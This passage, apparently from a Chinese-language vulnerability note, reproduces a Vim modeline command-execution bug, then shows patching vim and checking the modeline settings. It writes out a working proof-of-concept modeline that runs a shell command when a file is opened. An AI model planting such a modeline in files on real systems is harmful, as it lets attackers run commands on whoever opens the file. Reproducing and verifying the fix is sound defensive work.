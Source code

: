 ```shell
$ vim poc.txt

Linux ubuntu 4.15.0-45-generic #48~16.04.1-Ubuntu SMP Tue Jan 29 18:03:48 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux


Press ENTER or type command to cont

```

- 安装最新版本的vim

```shell
# 安装最新版本的vim
$ sudo apt install vim

# 通过apt-cache 查看已安装的版本 > 2:7.4.1689-3ubuntu1.3
$ apt-cache policy vim
vim:
  Installed: 2:7.4.1689-3ubuntu1.4
  Candidate: 2:7.4.1689-3ubuntu1.4
  ...
 
# 配置vimrc开启modeline功能
vim ~/.vimrc
i
set modeline
set modelines=5
<ESC>


# 测试效果，未触发漏洞
$ vim poc.txt
:!uname -a||" vi:fen:fdm=expr:fde=assert_fails("source\!\ \%"):fdl=0:fdt="
~                                                                      ...                                                                    
~                                                                               
"poc.txt" 1L, 75C  

```



#### 配置检查

```shell
# 检查modeline配置:
$ vim
:verbose set modeline? 
:verbose set modelines?
# 如果显示nomodeline, nomodelines表示没有配置

# 如果配置了，则会显示：

...
～                                                                 
  modeline
        Last set from ~/.vimrc
Press ENTER or type command to continue

...
～
  modelines=5
        Last set from ~/.vimrc
Press ENTER or type command to continue

```